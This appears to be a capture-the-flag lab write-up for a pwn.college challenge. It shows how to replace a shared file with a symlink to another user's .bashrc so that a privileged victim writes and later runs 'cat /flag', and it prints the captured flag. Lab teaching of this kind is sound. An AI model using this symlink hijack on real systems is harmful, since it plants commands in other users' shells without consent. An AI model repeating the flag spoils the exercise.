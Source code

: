 ### Tricky Linking 

In this challenge, when you run `/challenge/victim`, Zardus will add `cat /flag` to that list of commands:

```console
hacker@dojo:~$ /challenge/victim

Username: zardus
Password: **********
zardus@dojo:~$ echo "cat /flag" >> /tmp/collab/evil-commands.txt
zardus@dojo:~$ exit
logout

hacker@dojo:~$
```

Recall from the previous level that, having write access to `/tmp/collab`, the `hacker` user can replace that `evil-commands.txt` file. Also remember from [Comprehending Commands](https://pwn.college/linux-luminarium/commands) that files can _link_ to other files. What happens if `hacker` replaces `evil-commands.txt` with a symbolic link to some sensitive file that `zardus` can write to? Chaos and shenanigans!

You _know_ the file to link to. Pull off the attack, and get `/flag` (which, for this level, Zardus can read again!).


Command used: 
`rm /tmp/collab/evil-commands.txt`
`ln -s /home/zardus/.bashrc /tmp/collab/evil-commands.txt`
`/challenge/victim # to write cat /flag to bashrc`
`/challenge/victim # to trigger cat`

flag: `pwn.college{gRDnjihKpBi3dKvLsfdTamxM5qA.0VM0EzNxwyNwkzNyEzW}`
